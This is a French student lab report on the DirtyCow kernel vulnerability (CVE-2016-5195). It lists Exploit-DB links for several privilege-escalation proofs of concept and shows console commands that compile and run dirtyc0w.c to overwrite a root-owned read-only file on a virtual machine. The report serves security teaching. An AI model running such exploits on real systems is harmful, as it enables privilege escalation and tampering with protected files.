

# Rapport Exercice 1 SLB

## Auteurs

- Harun Ouweis
- Rayburn Nathan
- Mouti Amir

## Objectif

L'objectif de cet exercice est de démontrer la vulnérabilité DirtyCow (CVE-2016-5195) sur une machine virtuelle Ubuntu. Nous allons explorer les exploits disponibles, tester leur exécution, et documenter les résultats à l'aide de captures d'écran avec explications détaillées. Ce travail vise à renforcer notre compréhension des failles de sécurité bas niveau et des mesures d'exploitation correspondantes.

## Livrables

1. **URL de la CVE liée à DirtyCow :**
   - [CVE-2016-5195 - DirtyCow (Mitre)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5195)

   - [CVE-2016-5195 - DirtyCow (Exploit DB)](https://www.exploit-db.com/search?cve=2016-5195)
  
   - [github - DirtyCow Exploit](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

2. **URLs des exploits sur Exploit-DB :**
   - [Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)
   - [Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40847)
   - [Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)](https://www.exploit-db.com/exploits/40838)
   - [Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)](https://www.exploit-db.com/exploits/40616)
   - [Dirty COW' /proc/self/mem Race Condition (Write Access Method)](https://www.exploit-db.com/exploits/40611)

3. **Procédure de production et d'exécution de l'exploit :**
   - **Étape 1 : Téléchargement de l'exploit**
     - Le code source de l'exploit a été téléchargé depuis Exploit-DB et enregistré sur la machine virtuelle.
   - **Étape 2: Suivre les commandes de la console ci-dessous**

### Étape 2
Open a new console and connect to root. 

**Create a file with only root access and set the correct rights.**
```bash
$ sudo -s                        # change to root user
$ echo this is not a test > foo  # create file + content            
$ chmod 0404 foo                 # change file rights
$ ls -lah foo                    # display root access rights 
-r-----r-- 1 root root 19 Sep 24 14:32 foo
$ cat foo                        # Check content
this is not a test               
```

Open a new console as a normal user.

**Run the DirtyC0w exploit**
```bash
$ gcc -pthread dirtyc0w.c -o dirtyc0w # compile the .c file into a binary executable
$ ./dirtyc0w foo m00000000000000000   # execute the exploit with dest file and what we want to put inside it.
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo                              # display the content
m00000000000000000
```



## Conclusion

